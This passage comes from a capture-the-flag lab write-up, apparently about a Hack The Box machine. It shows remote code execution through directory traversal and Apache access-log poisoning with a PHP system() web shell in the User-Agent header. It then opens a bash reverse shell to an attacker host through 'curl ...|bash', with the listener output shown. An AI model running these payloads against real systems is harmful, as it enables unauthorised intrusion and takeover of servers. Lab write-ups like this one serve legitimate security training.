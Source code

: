 In order for us to get code-execution, we can use log-poisoning of the apache2 access log. For this, we can change our user-agent to any php-code. This php-code will then be written into the access.log file, where it will be interpreted once we exploit the directory-traversal.
```bash
root@silence:~# curl "http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//var/log/apache2/access.log" -H 'User-Agent: <?php system($_GET['cmd']); ?>'
```
Using curl, we can poison the apache2 log. Now the access.log file contains our user-agent, which allows us to execute arbitrary commands by supplying the cmd GET parameter.

![RCE via log-poisoning](/assets/htb/Patents/webpage-logpoison-rce.png)

We now have RCE on the server in the context of www-data. Let us get a shell next.

In order to get a shell, we simply let the server download and execute a bash reverse-shell, that we will host on our machine.
```bash
root@silence:~# cat shell.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
```
We can now trigger the reverse-shell by sending `curl 10.10.14.15/shell.sh|bash` as a cmd parameter.

```http
http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//var/log/apache2/access.log&cmd=curl+10.10.14.5/shell.sh|bash
```
```bash
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.173 - - [13/May/2020 20:28:12] "GET /shell.sh HTTP/1.1" 200 -
```
We get a shell as www-data returned.
```bash
root@silence:~# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.173.
Ncat: Connection from 10.10.10.173:54904.
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$
```
